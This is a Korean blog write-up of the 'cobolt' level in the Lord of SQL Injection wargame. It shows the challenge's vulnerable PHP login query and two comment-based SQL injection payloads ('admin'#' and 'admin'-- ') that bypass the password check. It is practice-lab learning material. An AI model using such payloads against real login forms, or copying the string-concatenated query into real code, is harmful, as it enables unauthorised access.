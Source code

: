 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cobolt 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


두 번째 문제는 `cobolt`이다.  

모든 문제의 이름이 괴물(?) 몬스터(?)의 이름인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_cobolt where id='' and pw=md5('')
--------------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이번에는 `pw`를 쿼리에 넣을 때 `md5`로 해싱을 한다.  

때문에 이 전 문제처럼 pw에 인젝션을 해 문제를 풀 수 없다.  

문제를 풀기위한 조건도 좀 달라졌다.  

```php
if($result['id'] == 'admin') solve("cobolt");
```

즉, 쿼리 결과로 나온 `id`가 `admin`이어야 문제를 풀 수 있다.  

어떻게 할 지 고민하다가 `pw` 검증 루틴을 아예 무시하도록 하는 방법을 사용했다.  

나는 주석을 사용했는데, 주석은 `#`이나 `--`를 사용한다.  

이 때, `--`를 사용할 때는 뒤에 꼭 공백이 있어야 한다.  

따라서 다음과 같은 두 가지 방법으로 문제를 풀 수 있다.  

```
1. ?id=admin'--%20
2. ?id=admin'%23
```

공백과 #은 `URL Encoding`을 해서 넘겨주어야 한다.  

역시 이번에도 문제가 풀렸다.  

```php
----------------------------------------------------------------------------------------------
query : select id from prob_cobolt where id='admin'#' and pw=md5('')
----------------------------------------------------------------------------------------------

COBOLT Clear!
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`COBOLT Clear!!`
